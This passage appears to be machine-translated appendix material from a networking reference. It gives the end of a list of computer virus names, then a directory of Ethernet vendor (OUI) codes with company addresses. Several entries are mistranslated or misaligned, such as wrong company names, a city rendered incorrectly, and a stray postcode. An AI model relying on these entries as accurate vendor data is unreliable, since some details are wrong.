- XM/Laroux.Newvar9
- XM/Laroux.Newvar10
- XM/Laroux.Newvar11
- XM/Neg.B
- XM/NoSave.A
- Zipper
- ZK
- ZMK
- ZMK.J
- Zoid
- Yankee-tune
- Yankee_Doodle
- YAP
- Yaunch
- Year 1992
- Year 2000 virus
- Yeke
- Yeke.2425
- Yellow Worm
- Yesmile
- Yesterday
- YOM
- You have GOT to see this
- Youth
- ystanbul
- Yukon
- YUKON3U.mp
- Z-90
- Z10
- Zappa
- Zaragoza
- Zaraza
- Zarm
- Zarma
- Zed
- Zeleng
- Zentory
- Zonked
- Zu
- Zyx
- ZZ


# 附录 G

## 供应商代码

富士通株式会社  
00-00-0e (十六进制)  
00000e (十六进制)  
计算机体系结构部  
大型机部门  
日本川崎市中原区上神田町 1015  

诺尔公司  
00-00-1b (十六进制)  
00001b (十六进制)  
122 East 1700 South  
M/S: E-12-1  
犹他州普罗沃市 84606  

ABB 自动化 AB，Q 部  
00-00-23 (十六进制)  
000023 (十六进制)  
S-721 67  
瑞典韦斯特罗斯  

牛津指标有限公司  
00-00-37 (十六进制)  
000037 (十六进制)  
Unit 8, 7 West Way,  
博特利，牛津郡，OX2 OJB  
英国  

Auspec 系统公司  
00-00-3C (十六进制)  
00003C (十六进制)  
2903 Bunker Hill Lane  
加利福尼亚州圣克拉拉市 95054  

Synrex 公司  
00-00-3F (十六进制)  
00003F (十六进制)  
246 Industrial Way West  
新泽西州伊顿顿市 07724  

奥立维蒂北美公司  
00-00-46 (十六进制)  
000046 (十六进制)  
E 22425 Appleway  
华盛顿州自由湖市 99019  

杏树电脑有限公司  
00-00-49 (十六进制)  
000049 (十六进制)  
90 Vincent Drive  
伯明翰埃奇巴斯顿  
B152SP 英国  

NEC 株式会社  
00-00-4C (十六进制)  
00004C (十六进制)  
7-1 Shiba5-Chome  
港区  
日本东京 108-01  

Radisys 公司  
00-00-50 (十六进制)  
000050 (十六进制)  
15025 S.W. Koll Parkway  
俄勒冈州贝弗顿市 97006-6056  

Hob Electronic GmbH & Co. KG  
00-00-51 (十六进制)  
000051 (十六进制)  
Brandsstatter-Str-2-10  
D-8502 Zirndorf  
德国  

光学数据系统  
00-00-52 (十六进制)  
000052 (十六进制)  
1101 E. Arapahoe Road  
得克萨斯州理查森市 75081  

Racore 计算机产品公司  
00-00-58 (十六进制)  
000058 (十六进制)  
2355 South 1070 West  
犹他州盐湖城市 84119  

南加州大学信息科学研究所  
00-00-5E (十六进制)  
00005E (十六进制)  
互联网分配号码机构  
4676 Admiralty Way  
加利福尼亚州马里纳德尔雷市 90292-6695  

住友电气工业株式会社  
00-00-5F (十六进制)  
00005F (十六进制)  
1-1-3, Shimaya  
此花区  
日本大阪 554  

Gateway 通信  
00-00-61 (十六进制)  
000061 (十六进制)  
2941 Alton Avenue  
加利福尼亚州尔湾市 92714  

横河数字计算机公司  
00-00-64 (十六进制)  
000064 (十六进制)  
SI 总部部门  
No. 25 Kowa Bldg 8-7 Sanbancho  
日本东京千代田区 102  

Network General 公司  
00-00-65 (十六进制)  
000065 (十六进制)  
4200 Bohannon Drive  
加利福尼亚州门洛帕克市 94025  

Rosemount 控制  
00-00-68 (十六进制)  
000068 (十六进制)  
1300 E. Lambert Road  
加利福尼亚州拉哈布拉市 90632  

Cray 通信有限公司  
00-00-6D (十六进制)  
00006D (十六进制)  
P.O. Box 254, Caxton Way  
Watford Business Park  
英国赫茨福德郡沃特福德 WD18XH  

Artisoft 公司  
00-00-6E (十六进制)  
00006E (十六进制)  
691 East River Road  
亚利桑那州图森市 85704  

Madge Networks 有限公司  
00-00-6F (十六进制)  
00006F (十六进制)  
100 Lodge Lane  
Chalfont St. Giles  
英国白金汉郡 84AH  

理光公司  
00-00-74 (十六进制)  
000074 (十六进制)  
2446 Toda, Atsugi City  
神奈川县  
日本 243  

Network 股份有限公司  
00-00-79 (十六进制)  
000079 (十六进制)  
8404 Esters Boulevard  
得克萨斯州尔湾市 75063  

Cray Research 超级服务器公司  
00-00-7D (十六进制)  
00007D (十六进制)  
9480 Carroll Park Drive  
加利福尼亚州圣迭戈市 92121  

Linotype-Hell Ag  
00-00-7F (十六进制)  
00007F (十六进制)  
Postfach 56 60  
Mergenthaler Allee 55-75  
6236 法兰克福附近埃施博恩  
德国  

Datahouse 信息系统  
00-00-8A (十六进制)  
00008A (十六进制)  
运营总监  
Meon House, East Tisted  
汉普郡阿普顿以北  
GU34 3QW, 英国  

Asante 技术  
00-00-94 (十六进制)  
000094 (十六进制)  
821 Fox Lane  
加利福尼亚州圣何塞市 95131  

Crosscomm 公司  
00-00-98 (十六进制)  
000098 (十六进制)  
450 Donald Lynch Boulevard  
马萨诸塞州马绍尔伯勒市 01752  

Memorex Telex 公司  
00-00-99 (十六进制)  
000099 (十六进制)  
3301 Terminal Drive  
北卡罗来纳州罗利市 27604  

Acorn 计算机有限公司  
00-00-A4 (十六进制)  
0000A4 (十六进制)  
Fulbourn Road, Cherry Hinton  
剑桥 CB1 4JN,  
英国  

Compatible Systems 公司  
00-00-A5 (十六进制)  
0000A5 (十六进制)  
P.O. Box 17220  
科罗拉多州博尔德市 80308-7220  

Network Computing Devices 公司  
00-00-A7 (十六进制)  
0000A7 (十六进制)  
350 North Bernardo  
加利福尼亚州山景市 94043  

Stratus 计算机公司  
00-00-A8 (十六进制)  
0000A8 (十六进制)  
55 Fairbanks Blvd  
马萨诸塞州马尔伯勒市 01752  

Network Systems 公司  
00-00-A9 (十六进制)  
0000A9 (十六进制)  
7600 Boone Avenue North  
明尼苏达州明尼阿波利斯市 55428-1099  

施乐公司  
00-00-AA (十六进制)  
0000AA (十六进制)  
办公系统部门  
3450 Hillview Avenue  
加利福尼亚州帕洛阿尔托市 94304  

达索自动化与  
00-00-AE (十六进制)  
0000AE (十六进制)  
电信  
9, Rue Elsa Triolet  
Z.I. Des Gatinies-78370 Plaisir  
法国  

Alpha 微系统公司  
00-00-B1 (十六进制)  
0000B1 (十六进制)  
3501 Sunflower  
加利福尼亚州圣安娜市 92704  

Micro-Matic 研究  
00-00-B6 (十六进制)  
0000B6 (十六进制)  
Ambachtenlaan 21 B5  
B - 3030 Heverlee  
比利时  

Dove 计算机公司  
00-00-B7 (十六进制)  
0000B7 (十六进制)  
1200 North 23rd Street  
北卡罗来纳州威尔明顿市 28405  

Allen-Bradley 公司  
00-00-BC (十六进制)  
0000BC (十六进制)  
555 Briarwood Circle  
密歇根州安娜堡市 48108  

Olicom A/S  
00-00-C1 (十六进制)  
0000C1 (十六进制)  
Nybrovej 114  
DK-2800 Lyngby  
丹麦  

Densan 股份有限公司  
00-00-CC (十六进制)  
0000CC (十六进制)  
1-23-11, Kamitakaido  
日本东京杉并区 168  

工业研究有限公司  
00-00-CD (十六进制)  
0000CD (十六进制)  
P.O. Box 31-310  
新西兰下哈特  

Develcon Electronics 有限公司  
00-00-D0 (十六进制)  
0000D0 (十六进制)  
856-51st Street East  
加拿大萨斯喀彻温省萨斯卡通市 S7K 5C7  

SBE 公司  
00-00-D2 (十六进制)  
0000D2 (十六进制)  
合同管理经理  
2400 Bisso Lane  
加利福尼亚州康科德市 94520  

Integrated Micro Products 有限公司  
00-00-E3 (十六进制)  
0000E3 (十六进制)  
Imp. No. 1 Industrial Estate  
英国达勒姆郡康塞特  
DH86TJ 英国  

Aptor 工业通信产品  
00-00-E6 (十六进制)  
0000E6 (十六进制)  
61, Chemin du Vieux-Chene  
Zirst-Bp 177  
38244 Meylan Cedex  
法国  

Star Gate Technologies  
00-00-E7 (十六进制)  
0000E7 (十六进制)  
29300 Aurora Road  
俄亥俄州所罗门市 44139  

Action Technology 公司  
00-00-E8 (十六进制)  
0000E8 (十六进制)  
46750 Fremont Blvd. #104  
加利福尼亚州弗里蒙特市 94538  

Iscad 公司  
00-00-E9 (十六进制)  
0000E9 (十六进制)  
1920 West Corporate Way  
加利福尼亚州阿纳海姆市 92803-6122  

April  
00-00-ED (十六进制)  
0000ED (十六进制)  
60, Rue de Cartale  
BP 38  
38170 Seyssinet-Pariset  
法国  

Spider Communications  
00-00-F2 (十六进制)  
0000F2 (十六进制)  
7491 Briar Road  
加拿大魁北克省蒙特利尔市 H4W 1K4  

Digital Equipment Corporation  
00-00-F8 (十六进制)  
0000F8 (十六进制)  
LKG 1-2/A19  
550 King Street  
马萨诸塞州利特尔顿市 01460-1289  

Rechner Zur Kommunikation  
00-00-FB (十六进制)  
0000FB (十六进制)  
Bitzenstr. 11  
F-5464 Asbach  
德国  

Node Runner 公司  
00-02-67 (十六进制)  
000267 (十六进制)  
2202 N. Forbes Blvd.  
亚利桑那州图森市 85745  

Racal-Datacom  
00-07-01 (十六进制)  
000701 (十六进制)  
Lan Internetworking Division  
155 Swanson Road  
马萨诸塞州博克斯伯勒市 01719  

Seritech Enterprise Co., Ltd.  
00-20-02 (十六进制)  
002002 (十六进制)  
FL, 182, NO, 531-1  
Chung Cheng Road  
台湾台北县新店市  

Garrett Communications, Inc.  
00-20-06 (十六进制)  
002006 (十六进制)  
48531 Warmsprings Blvd.  
加利福尼亚州弗里蒙特市 94539  

Cable & Computer Technology  
00-20-08 (十六进制)  
002008 (十六进制)  
1555 S. Sinclair Street  
加利福尼亚州阿纳海姆市 92806  

Packard Bell Electronics, Inc.  
00-20-09 (十六进制)  
002009 (十六进制)  
9425 Canoga Avenue  
加利福尼亚州查茨沃斯市 91321  

Adastra Systems Corp.  
00-20-0C (十六进制)  
00200C (十六进制)  
28310 Industrial Blvd., Ste. K  
加利福尼亚州海沃德市 94545  

Satellite Technology Mgmt, Inc.  
00-20-0E (十六进制)  
00200E (十六进制)  
3530 Hyland Avenue  
加利福尼亚州科斯塔梅萨市 92626  

Canopus Co., Ltd.  
00-20-11 (十六进制)  
002011 (十六进制)  
Kobe Hi-Tech Park  
1-2-2 Murotani  
日本神户市西区 651-22  

Global View Co., Ltd.  
00-20-14 (十六进制)  
002014 (十六进制)  
4F, NO. 23, Lane 306  
Fu-Teh 1 Rd.  
台湾台北县新店市  

Actis Computer Sa  
00-20-15 (十六进制)  
002015 (十六进制)  
16 Chemin des Aux  
1228 Plan des Ovates  
瑞士  

Showa Electric Wire & Cable Co  
00-20-16 (十六进制)  
002016 (十六进制)  
NO. 20-25, Seishin 8-Chome  
日本神奈川县相模原市 229  

Orbotech  
00-20-17 (十六进制)  
002017 (十六进制)  
Industrial Zone  
P.O. Box 215  
70651 Yavne  
以色列  

Excel, Inc.  
00-20-1C (十六进制)  
00201C (十六进制)  
355 Old Plymouth Road  
马萨诸塞州萨加莫尔海滩市 02562  

Netquest Corporation  
00-20-1E (十六进制)  
00201E (十六进制)  
523 Fellowship Road, STE. 205  
新泽西州蒙特劳尔市 08054  

Best Power Technology, Inc.  
00-20-1F (十六进制)  
00201F (十六进制)  
P.O. Box 280  
威斯康星州内塞达州 54646  

Algorithms Software Pvt. Ltd.  
00-20-21 (十六进制)  
002021 (十六进制)  
83 Jolly Maker Chambers II  
Nariman Point  
印度孟买 400021  

Teknique, Inc.  
00-20-22 (十六进制)  
002022 (十六进制)  
911 N. Plum Grove Road  
伊利诺伊州绍姆堡市 60173  

Pacific Communication Sciences  
00-20-24 (十六进制)  
002024 (十六进制)  
10075 Barnes Canyon Road  
加利福尼亚州圣迭戈市 92121  

Control Technology, Inc.  
00-20-25 (十六进制)  
002025 (十六进制)  
5734 Middle Brook Pike  
田纳西州诺克斯维尔市 37921  

Ming Fortune Industry Co., Ltd  
00-20-27 (十六进制)  
002027 (十六进制)  
4F, NO. 5, Lane 45  
Pao Hsin Rd., Hsin Tien  
台湾台北县  

West Egg Systems, Inc.  
00-20-28 (十六进制)  
002028 (十六进制)  
65 High Ridge Road, -STE. 286  


## 00-20-28 (十六进制)
- 002028（十六进制）
- 美国康涅狄格州斯坦福德，邮编 06905

## 00-20-29 (十六进制)
- 002029（十六进制）
- 数据处理产品公司 (Teleprocessing Products, Inc.)
- 东工业街 4565 号
- 7K 号楼
- 美国加利福尼亚州西米谷，邮编 93063

## 00-20-2C (十六进制)
- 00202C（十六进制）
- 威尔特罗尼克斯有限公司 (Welltronix Co., Ltd.)
- 黄希路 36-1 号，3 楼
- 士林
- 台北
- 中华民国台湾

## 00-20-2E (十六进制)
- 00202E（十六进制）
- 戴斯达数字公司 (Daystar Digital)
- 大西洋高速公路 5556 号
- 美国佐治亚州花枝镇，邮编 30542

## 00-20-30 (十六进制)
- 002030（十六进制）
- 模拟与数字系统公司 (Analog & Digital Systems)
- 拉维尔路 1/2 号
- 印度班加罗尔，邮编 560001

## 00-20-32 (十六进制)
- 002032（十六进制）
- 阿尔卡特朗讯 (Alcatel Taisel)
- 台成工业区，明升街 4 号
- 台北县
- 中华民国台湾

## 00-20-33 (十六进制)
- 002033（十六进制）
- 突触技术有限公司 (Synapse Technologies, Inc.)
- 阿尔伯马尔路 4822 号，104 室
- 美国北卡罗来纳州夏洛特，邮编 28205

## 00-20-36 (十六进制)
- 002036（十六进制）
- BMC 软件公司 (Bmc Software)
- 城西大道 1600 号，1600 室
- 美国德克萨斯州休斯顿，邮编 77042

## 00-20-3A (十六进制)
- 00203A（十六进制）
- 数字生物识别公司 (Digital Biometrics Inc.)
- 罗兰德路 5600 号，205 室
- 美国明尼苏达州明尼通卡，邮编 55364

## 00-20-3B (十六进制)
- 00203B（十六进制）
- 维斯德姆有限公司 (Wisdm Ltd.)
- 圣约翰创新中心
- 考利路
- 英国剑桥，邮编 CB4 4WS

## 00-20-3C (十六进制)
- 00203C（十六进制）
- 欧罗泰姆有限公司 (Eurotime Ab)
- 信箱 277
- 瑞典斯卡拉，邮编 S-53224

## 00-20-3F (十六进制)
- 00203F（十六进制）
- 重机株式会社 (Juki Corporation)
- 国立路 2-1 号 (Kokuryp Cho)
- 调布市 (Chofu shi)
- 日本东京都，邮编 182

## 00-20-42 (十六进制)
- 002042（十六进制）
- 数据指标公司 (Datametrics Corp.)
- 科曼奇大道 8966 号
- 美国加利福尼亚州查茨沃斯，邮编 91311

## 00-20-44 (十六进制)
- 002044（十六进制）
- 捷创科技公司 (Genitech Pty Ltd)
- 信箱 196
- 澳大利亚新南威尔士州阿斯基思，邮编 2077

## 00-20-45 (十六进制)
- 002045（十六进制）
- 索尔康系统有限公司 (Solcom Systems, Ltd.)
- 德拉蒙德广场 1 号
- 布鲁斯菲尔德庄园
- 利文斯顿
- 苏格兰，邮编 EH54 9DH

## 00-20-48 (十六进制)
- 002048（十六进制）
- 福系统公司 (Fore Systems, Inc.)
- 伽马大道 1000 号
- 美国宾夕法尼亚州匹兹堡，邮编 15238

## 00-20-49 (十六进制)
- 002049（十六进制）
- 康特隆公司 (Comtron, Inc.)
- 圣凯瑟琳大楼 (Sancatherina Bldg.)
- 新宿 36-12 号
- 东京都新宿区新宿 1 丁目
- 日本东京，邮编 160

## 00-20-4A (十六进制)
- 00204A（十六进制）
- 普罗网有限公司 (Pronet Gmbh)
- 三兔路 22 号 (An Den Drei Hasen 22)
- 德国奥伯乌尔塞尔，邮编 D-61440

## 00-20-4B (十六进制)
- 00204B（十六进制）
- 自动电脑有限公司 (Autocomputer Co., Ltd.)
- 北园路 18 号
- 台湾桃园县芦竹市
- 中华民国台湾

## 00-20-4C (十六进制)
- 00204C（十六进制）
- 美特罗电脑私人有限公司 (Mitron Computer Pte Ltd.)
- 后港大道 1 号 1020 室，03-3504
- 新加坡，邮编 1953

## 00-20-4D (十六进制)
- 00204D（十六进制）
- 因诺维斯有限公司 (Inovis Gmbh)
- 汉斯·布劳恩街 50 号 (Hanns-Braun Strasse 50)
- 德国诺费尔恩，邮编 85375

## 00-20-4E (十六进制)
- 00204E（十六进制）
- 网络安全系统公司 (Network Security Systems, Inc.)
- 沃普尔斯街 9401 号，100 室
- 美国加利福尼亚州圣地亚哥，邮编 92121

## 00-20-4F (十六进制)
- 00204F（十六进制）
- 德国航天股份公司 (Deutsche Aerospace Ag)
- 业务领域
- 防御与民用系统 (Verteidigung Und Zivile System)
- 德国慕尼黑，邮编 81663
- 德意志联邦共和国

## 00-20-50 (十六进制)
- 002050（十六进制）
- 韩国电脑公司 (Korea Computer Inc.)
- 大兴洞 469 号
- 韩国首尔麻浦区，邮编 135-090

## 00-20-51 (十六进制)
- 002051（十六进制）
- 凤凰数据通信公司 (Phoenix Data Communications Corp.)
- 接入路 55 号
- 美国罗德岛州沃里克市，邮编 02886

## 00-20-53 (十六进制)
- 002053（十六进制）
- 亨茨维尔微系统公司 (Huntsville Microsystems, Inc.)
- 信箱 12415
- 美国阿拉巴马州亨茨维尔，邮编 35815

## 00-20-56 (十六进制)
- 002056（十六进制）
- 新普产品公司 (Neoproducts)
- 查普曼街 25 号
- 维多利亚州北布莱克本
- 澳大利亚，邮编 3130

## 00-20-5B (十六进制)
- 00205B（十六进制）
- 天际科技公司 (Skyline Technology)
- 加拿大路 1590 号
- 美国加利福尼亚州伍德赛德，邮编 94062

## 00-20-5D (十六进制)
- 00205D（十六进制）
- 纳诺马蒂克有限公司 (Nanomatic Oy)
- 普伊斯托拉希蒂 4 号 (Puistolan Raitti 4)
- 芬兰赫尔辛基，邮编 00760

## 00-20-5F (十六进制)
- 00205F（十六进制）
- 伽玛达特电脑有限公司 (Gammadate Computer Gmbh)
- 古腾堡街 13 号 (Gutenbergstr. 13)
- 德国普赫海姆，邮编 82168

## 00-20-61 (十六进制)
- 002061（十六进制）
- 达纳科技通信公司 (Dynatech Communications, Inc.)
- 安纳波利斯路 991 号
- 美国弗吉尼亚州伍德斯布里奇，邮编 22191

## 00-20-63 (十六进制)
- 002063（十六进制）
- 威普柔因法特有限公司 (Wipro Infotech Ltd.)
- 维杰 SDF 区 47-48 单元
- 梅普兹，卡多佩里
- 印度马德拉斯，邮编 600045

## 00-20-64 (十六进制)
- 002064（十六进制）
- 普罗特克微系统公司 (Protec Microsystems, Inc.)
- 拉布罗斯 297 号
- 加拿大魁北克省 POINT-E-CLAIRE，邮编 H9R 1A3

## 00-20-66 (十六进制)
- 002066（十六进制）
- 通用魔力公司 (General Magic, Inc.)
- 拉瑟姆街 2465 号
- 美国加利福尼亚州山景城，邮编 94040

## 00-20-68 (十六进制)
- 002068（十六进制）
- 伊斯丹尼克 (Isdync)
- 罗克斯伯勒大道 11 号
- 美国马萨诸塞州纳蒂克，邮编 01760

## 00-20-69 (十六进制)
- 002069（十六进制）
- 数字电话网系统公司 (Isdn Systems Corporation)
- 老法院路 8320 号
- 203 室
- 美国弗吉尼亚州维也纳，邮编 22182

## 00-20-6A (十六进制)
- 00206A（十六进制）
- 大阪电脑株式会社 (Osaka Computer Corp.)
- 吹田市小代町 2-8
- 日本大阪，邮编 572

## 00-20-6D (十六进制)
- 00206D（十六进制）
- 数据竞赛公司 (Data Race, Inc.)
- IH-10 西 11550 号，395 室
- 美国德克萨斯州圣安东尼奥，邮编 78230

## 00-20-6E (十六进制)
- 00206E（十六进制）
- 阿克斯特公司 (Xact, Inc.)
- 信箱 55
- 美国德克萨斯州阿格尔，邮编 76226

| 公司 | 地址 | ID (十六进制) | ID (十六进制) | 位置 |
| :--- | :--- | :--- | :--- | :--- |
| 成勋系统 (Sungwoon Systems) | 永信大楼 44-4 | 00-20-74 | 002074 | 韩国首尔江南区三星洞 135-090 |
| 勒度公司 (Reudo Corporation) | 心山 4-1-10 | 00-20-76 | 002076 | 日本新潟县直江津市 940-21 |
| 卡迪奥斯系统公司 (Kardios Systems Corp.) | 北峰顶大道 26 号 | 00-20-77 | 002077 | 美国马里兰州盖瑟斯堡，邮编 20877 |
| 龙通公司 (Runtop, Inc.) | 45 巷 8 弄 10 号 5 楼 | 00-20-78 | 002078 | 中华民国台湾台北县新店市宝新街 |
| 京卫兴业株式会社 (Kyoel Sangyo Co., Ltd.) | 工业系统董事兼总经理 | 00-20-7F | 00207F | 日本东京涩谷区初代 2 丁目 20-4 |
| 奥纳克公司 (Oneac Corporation) | 北布拉德利路 27944 号 | 00-20-82 | 002082 | 美国伊利诺伊州利伯蒂维尔，邮编 60048 |
| 普雷斯科姆公司 (Presticom Incorporated) | 第一街 3275 号，1 室 | 00-20-83 | 002083 | 加拿大魁北克省圣于贝尔，邮编 J3Y 8Y6 |
| 奥西图形美国公司 (Oce Graphics Usa, Inc.) | 因斯布鲁克大道 1221 号 | 00-20-84 | 002084 | 美国加利福尼亚州森尼韦尔，邮编 94089 |
| 全球村庄通信 (Global Village Communication) | 东米德尔菲尔德路 685 号 | 00-20-88 | 002088 | B 楼，美国加利福尼亚州山景城，邮编 94043 |
| T3plus 网络公司 (T3plus Networking, Inc.) | 圣托马斯快线 2840 号 | 00-20-89 | 002089 | 美国加利福尼亚州圣克拉拉，邮编 95051 |
| 索尼克斯通信有限公司 (Sonix Communications, Ltd.) | 威尔金森路 | 00-20-8A | 00208A | 英国格洛斯特郡锡伦斯特，邮编 GL7 1YT |
| 拉皮斯科技公司 (Lapis Technologies, Inc.) | 马里纳村公园大道 1100 号 | 00-20-8B | 00208B | 100 室，美国加利福尼亚州阿拉米达，邮编 94501 |

## 00-20-8C (十六进制)
- 00208C（十六进制）
- 银河网络公司 (Galaxy Networks, Inc.)
- 德索托大道 9348 号
- 美国加利福尼亚州查茨沃斯，邮编 91311

## 00-20-8E (十六进制)
- 00208E（十六进制）
- 切文软件工程有限公司 (Chevin Software Eng. Ltd)
- boroughgate 2 号，奥特利
- 约克郡西莱斯特
- 英国 LS21 3AL

## 00-20-95 (十六进制)
- 002095（十六进制）
- 利瓦电子公司 (Riva Electronics)
- 17 单元，巴尔斯福德路 (Barrsfold Rd.)
- 温盖茨工业园
- 博尔顿西霍顿
- 英国兰开夏郡，邮编 BL5 3XW

## 00-20-96 (十六进制)
- 002096（十六进制）
- 西伯环境控制系统公司 (Siebe Environmental Controls)
- 拜德大道 1701 号
- 美国弗吉尼亚州里士满，邮编 23230

## 00-20-99 (十六进制)
- 002099（十六进制）
- 邦电气株式会社 (Bon Electric Co., Ltd.)
- 水户町 4-4 28
- 日本兵库县尼崎市，邮编 661

## 00-20-9B (十六进制)
- 00209B（十六进制）
- 艾赛特电子有限公司 (Ersat Electronic Gmbh)
- 哈尔贝格街 61 号 (Haarbergstr. 61)
- 德国埃尔福特，邮编 D-99097

## 00-20-9C (十六进制)
- 00209C（十六进制）
- 主要接入公司 (Primary Access Corp.)
- 卡罗尔峡谷路 10080 号
- 美国加利福尼亚州圣地亚哥，邮编 92131

## 00-20-9D (十六进制)
- 00209D（十六进制）
- 利珀特自动化技术公司 (Lippert Automationstechnik)
- 德国曼海姆，邮编 D-68165
- 克莱普穆尔街 34 号 (Kraepmuehlstr. 34)

## 00-20-A1 (十六进制)
- 0020A1（十六进制）
- 多瓦特龙 (Dovatron)
- 产品部门
- 波士顿大道 1198 号
- 美国科罗拉多州朗蒙特，邮编 80501

## 00-20-A4 (十六进制)
- 0020A4（十六进制）
- 多点网络公司 (Multipoint Networks)
- 戴维斯大道 19 号
- 美国加利福尼亚州贝尔蒙特，邮编 94002-3001

## 00-20-A6 (十六进制)
- 0020A6（十六进制）
- 普罗希姆公司 (Proxim, Inc.)
- 北伯南多大道 295 号
- 美国加利福尼亚州山景城，邮编 94043

## 00-20-A9 (十六进制)
- 0020A9（十六进制）
- 白马实业 (White Horse Industrial)
- 56 巷 16 号 4 楼
- 中山北路二段
- 台北
- 中华民国台湾

## 00-20-AA (十六进制)
- 0020AA（十六进制）
- NTL
- 先进产品部门
- 克劳利法院 (Crawley Court)
- 汉普郡温彻斯特
- 英国

## 00-20-AC (十六进制)
- 0020AC（十六进制）
- 安捷伦数据系统有限公司 (Interflex Datensysteme Gmbh)
- SO21 2QA，英国
- 格罗维森街 24 号 (Grobwiesenstrase 24)
- 德国迪施豪森，邮编 W-7201

## 00-20-AE (十六进制)
- 0020AE（十六进制）
- 奥耐特数据通信技术有限公司 (Ornet Data Communication Tech.)
- 信箱 323
- 卡米埃勒 20100
- 以色列

## 00-20-AF (十六进制)
- 0020AF（十六进制）
- 三通信公司 (3COM Corporation)
- 海湾广场 5400 号
- 美国加利福尼亚州圣克拉拉，邮编 95052

## 00-20-B0 (十六进制)
- 0020B0（十六进制）
- 网关设备公司 (Gateway Devices, Inc.)
- 斯坦韦尔大道 2440 号
- 美国加利福尼亚州康科德，邮编 94520

## 00-20-B1 (十六进制)
- 0020B1（十六进制）
- 康泰克研究公司 (Comtech Research Inc.)
- 太浩湖 24271
- 美国加利福尼亚州拉古纳尼格塞尔，邮编 92656

## 00-20-B3 (十六进制)
- 0020B3（十六进制）
- 赛莱克通信系统 (Seltec Communications Systems)
- 阿波罗广场 3 号
- 莱恩科维
- 新南威尔士州 2066
- 澳大利亚

## 00-20-B6 (十六进制)
- 0020B6（十六进制）
- 敏捷网络公司 (Agile Networks, Inc.)
- 贝克大道 200 号
- 美国马萨诸塞州康科德，邮编 01742

## 00-20-BA (十六进制)
- 0020BA（十六进制）
- 伍兹伯里理工学院高性能计算中心 (Center for High Performance Computing Of Wpi)
- 170 室
- 西波士顿邮路 293 号
- 美国马萨诸塞州马尔波罗，邮编 01752

## 00-20-BB (十六进制)
- 0020BB（十六进制）
- 扎克斯公司 (Zax Corporation)
- 小田部 5 丁目 20-12
- 杉并区
- 东京
- 日本，邮编 167

## 00-20-BE (十六进制)
- 0020BE（十六进制）
- LAN 接入公司 (LAN Access Corp.)
- 蒙特雷街 2730 号，102 室
- 美国加利福尼亚州托兰斯，邮编 90503

## 00-20-BF (十六进制)
- 0020BF（十六进制）
- 艾瑞测试系统 (Aehr Test Systems)
- 普利茅斯街 1667 号
- 美国加利福尼亚州山景城，邮编 94043

## 00-20-C2 (十六进制)
- 0020C2（十六进制）
- 德州内存系统公司 (Texas Memory Systems, Inc)
- 韦斯海默路 11200 号，1000 室
- 美国德克萨斯州休斯顿，邮编 77042

## 鹰技术公司 (Eagle Technology)
- 尚克路 2865 号

圣何塞，加利福尼亚州 95134

NICTEC
00-20-C5 (十六进制)
0020C5 (十六进制)

Rama Vi Road
Rajthevi Bangkok 10400
泰国

Larscom Incorporated
00-20-C8 (十六进制)
0020C8 (十六进制)

4600 Patrick Henry Drive
圣克拉拉，加利福尼亚州 95054

Victron Bv
00-20-C9 (十六进制)
0020C9 (十六进制)

POB 31
NL 9700 Aa 格罗宁根
荷兰

Digital Ocean
00-20-CA (十六进制)
0020CA (十六进制)

11206 Thompson Avenue
Lenexa, 堪萨斯州 66219-2303

Digital Services, Ltd.
00-20-CC (十六进制)
0020CC (十六进制)

9 Wayte Street
Cosham
Hampshire
英国 P063BS

Hybrid Networks, Inc.
00-20-CD (十六进制)
0020CD (十六进制)

20863 Stevens Creek Blvd.
Suite 300
库珀蒂诺，加利福尼亚州 95014-2116

Logical Design Group, Inc.
00-20-CE (十六进制)
0020CE (十六进制)

6301 Chapel Hill Road
Raleigh, 北卡罗来纳州 27607

Microcomputer Systems (M) SDN.
00-20-D1 (十六进制)
0020D1 (十六进制)

23-25, Jalan Jejaka Tujuh
Taman Maluri, Cheras
55100 吉隆坡
马来西亚

RAD Data Communications, Ltd.
00-20-D2 (十六进制)
0020D2 (十六进制)

8 Hanecho-shet Street
Tel-Aviv 69710
以色列

OST (Ouest Standard Telematique)
00-20-D3 (十六进制)
0020D3 (十六进制)

Rue Du Bas Village
BP 158, Z.I. Sud-Est
35515 Cesson-Sevigne Cedex
法国

Lannair Ltd.
00-20-D6 (十六进制)
0020D6 (十六进制)

Atidim Technological Pk, Bldg. 3
Tel-Aviv 61131
以色列

XNET Technology, Inc.
00-20-DB (十六进制)
0020DB (十六进制)

426 S. Hillview Drive
Milpitas, 加利福尼亚州 95035

Densitron Taiwan Ltd.
00-20-DC (十六进制)
0020DC (十六进制)

Kyowa Nanabankan 5F
1-11-5 Omori-Kita
Ota-Ku, Tokyo 143
日本

Alamar Electronics
00-20-E1 (十六进制)
0020E1 (十六进制)

489 Division Street
Campbell, 加利福尼亚州 95008

B&W NuCLEAR Service Company
00-20-E7 (十六进制)
0020E7 (十六进制)

Special Products & Integ. Svcs.
155 Mill Ridge Road
Lynchburg, 弗吉尼亚州 24502

Datatrek Corporation
00-20-E8 (十六进制)
0020E8 (十六进制)

4505 WylAnd Drive
EIkKhart, 印第安纳州 46516

Dantel
00-20-E9 (十六进制)
0020E9 (十六进制)

P.O. Box 55013
2991 North Argyle Ave.
Fresno, 加利福尼亚州 93727-1388

Efficient Networks, Inc.
00-20-EA (十六进制)
0020EA (十六进制)

4201 Spring Valley Road
Suite 1200
Dallas, 德克萨斯州 75244-3666

Techware Systems Corp.
00-20-EC (十六进制)
0020EC (十六进制)

#100 - 12051 Horseshoe Way
Richmond, B.C.
加拿大 V7A 4V4

Giga-Byte Technology Co., Ltd.
00-20-ED (十六进制)
0020ED (十六进制)

365 Cloverleaf
Baldwin Park, 加利福尼亚州 91706

Gtech Corporation
00-20-EE (十六进制)
0020EE (十六进制)

55 Technology Way
West Greenwich, 罗德岛州 02817

U S C Corporation
00-20-EF (十六进制)
0020EF (十六进制)

7-19-1, Nishigotanda,
Shinagawa-Ku
Tokyo,
141 日本

Altos India Limited
00-20-F1 (十六进制)
0020F1 (十六进制)

D-60, Okhla Industrial
Area, Phase 1
New Delhi 110020
印度

Spectrix Corp.
00-20-F4 (十六进制)
0020F4 (十六进制)

906 University Place
Evanston, 伊利诺伊州 60201

Pan Dacom Telecommunications GMBH
00-20-F5 (十六进制)
0020F5 (十六进制)

Fasanenweg 25
D-22145 Hamburg
德国

Net Tekand Karlnc, Inc.
00-20-F6 (十六进制)
0020F6 (十六进制)

Little Streams
The Abbotsbrook, Bourne End
Bucks, SL8 5QY
英国

Carrera Computers, Inc.
00-20-F8 (十六进制)
0020F8 (十六进制)

23181 Verduco Drive-STE. 105A
Laguna Hills, 加利福尼亚州 92653

Symmetrical Technologies
